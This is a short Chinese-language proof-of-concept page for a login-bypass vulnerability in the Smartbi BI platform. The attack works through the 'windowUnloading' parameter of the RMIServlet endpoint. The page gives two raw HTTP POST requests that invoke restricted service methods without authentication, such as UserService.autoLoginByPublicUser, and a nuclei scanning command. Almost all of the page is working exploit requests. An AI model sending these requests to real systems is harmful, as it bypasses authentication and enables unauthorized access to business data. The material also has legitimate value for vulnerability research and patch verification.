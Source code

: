 
## Smartbi windowUnloading 绕过登录

### 参考
https://exp.ci/2023/07/03/Smartbi-windowUnloading%20%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/

未使用windowUnloading前，调用受限方法会提示未登录，构造windowUnloading参数后
## POC

```
POST /smartbi/vision/RMIServlet?windowUnloading=className%3DUserService%26methodName%3DautoLoginByPublicUser%26params%3D%5B%5D HTTP/1.1
Host: 192.168.137.131:18080
Content-Length: 71
Cache-Control: max-age=0
If-Modified-Since: 0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Accept: */*
Origin: http://192.168.137.131:18080
Referer: http://192.168.137.131:18080/smartbi/vision/index.jsp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: JSESSIONID=CEA21F9B9E23D9F15CC94B4B01718B5B
Connection: close

className=DataSourceService&methodName=testConnectionList&params=%5b%5d

```

## POC2
```
POST /smartbi/vision/RMIServlet?windowUnloading=&zDp4Wp4gRip+iIpiGZp4DRw6+/JV/uuu7uNf7NfN1/u71'/NOJM/NOJN/uu/JT HTTP/1.1
Host: 1.1.1.1
User-Agent: Go-http-client/1.1
Content-Length: 52
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

className=UserService&methodName=isLogged&params=[]
```

## PoC nuclei
`smartbi-windowunloading-deserialization`

`nuclei -debug -tags smartbi -timeout 20 -pi -u https://x.x.x.129`
